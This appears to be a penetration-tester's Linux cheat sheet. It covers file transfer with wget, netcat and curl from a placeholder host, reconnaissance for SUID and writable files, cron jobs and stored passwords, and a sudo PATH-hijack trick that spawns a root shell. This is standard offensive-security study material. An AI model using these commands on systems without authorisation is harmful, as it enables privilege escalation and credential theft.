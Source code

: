 ## File Transfers
```bash
# wget
wget http://<ip>/file_name -O /path/to/save/file

# Netcat
nc -nv <ip> <port> > file/to/recv

# cURL
curl http://<ip>/file_name --output file_name

# Sync clock
sudo ntpdate -u DC
```

## Information Gathering
```bash
# Find useable Linux files
find / -perm -u=s -type f 2>/dev/null

# Find writeable files
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# Find writeable directories
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null

# Disk Usage
sudo du -hsx ./* | sort -rh | head -n 40

# Cron Jobs
ls -la /etc/cron.daily/

crontab -l

crontab -u root -l

systemctl list-timers

# Hunt passwords
grep password -B 5 -A 5 # below 5 above 5
```

## Abusing Sudo
Can sudo but absolute path is specified? Use `ltrace` to view libraries being loaded by these programs and check if absolute path is specified or not

```bash
# Easy win?
sudo -l # Check programs on GTFOBins

# Can sudo, abosulte path not specified?
echo "/bin/sh" > <program_name>
chmod 777 <program_name>
# Export PATH=.:$PATH
sudo <program_name>
```